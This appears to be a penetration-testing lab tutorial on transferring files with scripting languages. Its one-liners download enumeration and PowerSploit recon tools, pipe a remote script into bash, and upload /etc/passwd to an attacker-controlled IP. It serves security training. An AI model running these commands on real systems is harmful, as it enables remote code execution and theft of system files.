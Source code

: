 # Transferring Files with Code

***

We can use some Windows default applications, such as `cscript` and `mshta`, to execute JavaScript or VBScript code. JavaScript can also run on Linux hosts.

***

### <mark style="color:blue;">Python</mark>

<mark style="color:orange;">**Python 2 - Download**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
python2.7 -c 'import urllib; urllib.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'

```
{% endcode %}

<mark style="color:orange;">**Python 3 - Download**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'
```
{% endcode %}

***

### <mark style="color:blue;">PHP</mark>

In the following example, we will use the PHP [file\_get\_contents() module](https://www.php.net/manual/en/function.file-get-contents.php) to download content from a website combined with the [file\_put\_contents() module](https://www.php.net/manual/en/function.file-put-contents.php) to save the file into a directory. `PHP` can be used to run one-liners from an operating system command line using the option `-r`.

<mark style="color:orange;">**PHP Download with File\_get\_contents()**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'
```
{% endcode %}

An alternative to `file_get_contents()` and `file_put_contents()` is the [fopen() module](https://www.php.net/manual/en/function.fopen.php). We can use this module to open a URL, read it's content and save it into a file.

<mark style="color:orange;">**PHP Download with Fopen()**</mark>

{% code overflow="wrap" fullWidth="true" %}
```php
<?php
const BUFFER = 1024;

$fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb");
$flocal = fopen("LinEnum.sh", "wb");

while ($buffer = fread($fremote, BUFFER)) {
    fwrite($flocal, $buffer);
}

fclose($flocal);
fclose($fremote);
?>

```
{% endcode %}

***

We can also send the downloaded content to a pipe instead, similar to the fileless example we executed in the previous section using cURL and wget.

<mark style="color:orange;">**PHP Download a File and Pipe it to Bash**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash
```
{% endcode %}

Note: The URL can be used as a filename with the @file function if the fopen wrappers have been enabled.

***

### <mark style="color:blue;">Other Languages</mark>

`Ruby` and `Perl` are other popular languages that can also be used to transfer files. These two programming languages also support running one-liners from an operating system command line using the option `-e`.

***

<mark style="color:orange;">**Ruby - Download a File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'
```
{% endcode %}

***

<mark style="color:orange;">**Perl - Download a File**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'
```
{% endcode %}

***

### <mark style="color:blue;">JavaScript</mark>

JavaScript is a scripting or programming language that allows you to implement complex features on web pages. Like with other programming languages, we can use it for many different things.

The following JavaScript code is based on [this](https://superuser.com/questions/25538/how-to-download-files-from-command-line-in-windows-like-wget-or-curl/373068) post, and we can download a file using it. We'll create a file called `wget.js` and save the following content:

```javascript
var WinHttpReq = new ActiveXObject("WinHttp.WinHttpRequest.5.1");
WinHttpReq.Open("GET", WScript.Arguments(0), /*async=*/false);
WinHttpReq.Send();
BinStream = new ActiveXObject("ADODB.Stream");
BinStream.Type = 1;
BinStream.Open();
BinStream.Write(WinHttpReq.ResponseBody);
BinStream.SaveToFile(WScript.Arguments(1));
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our JavaScript code and download a file.

<mark style="color:orange;">**Download a File Using JavaScript and cscript.exe**</mark>

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\htb> cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1
```
{% endcode %}

***

### <mark style="color:blue;">VBScript</mark>

[VBScript](https://en.wikipedia.org/wiki/VBScript) ("Microsoft Visual Basic Scripting Edition") is an Active Scripting language developed by Microsoft that is modeled on Visual Basic. VBScript has been installed by default in every desktop release of Microsoft Windows since Windows 98.

The following VBScript example can be used based on [this](https://stackoverflow.com/questions/2973136/download-a-file-with-vbs). We'll create a file called `wget.vbs` and save the following content:

```powershell
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", WScript.Arguments.Item(0), False
xHttp.Send

with bStrm
    .type = 1
    .open
    .write xHttp.responseBody
    .savetofile WScript.Arguments.Item(1), 2
end with
```

We can use the following command from a Windows command prompt or PowerShell terminal to execute our VBScript code and download a file.

<mark style="color:orange;">**Download a File Using VBScript and cscript.exe**</mark>

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
C:\htb> cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```
{% endcode %}

***

### <mark style="color:blue;">Upload Operations using Python3</mark>

The Python3 [requests module](https://pypi.org/project/requests/) allows you to send HTTP requests (GET, POST, PUT, etc.) using Python. We can use the following code if we want to upload a file to our Python3 [uploadserver](https://github.com/Densaugeo/uploadserver).

<mark style="color:orange;">**Starting the Python uploadserver Module**</mark>

```bash
mrroboteLiot@htb[/htb]$ python3 -m uploadserver 
```

<mark style="color:orange;">**Uploading a File Using a Python One-liner**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'
```
{% endcode %}

Let's divide this one-liner into multiple lines to understand each piece better.

```python
# To use the requests function, we need to import the module first.
import requests 

# Define the target URL where we will upload the file.
URL = "http://192.168.49.128:8000/upload"

# Define the file we want to read, open it and save it in a variable.
file = open("/etc/passwd","rb")

# Use a requests POST request to upload the file. 
r = requests.post(url,files={"files":file})
```

We can do the same with any other programming language. A good practice is picking one and trying to build an upload program.
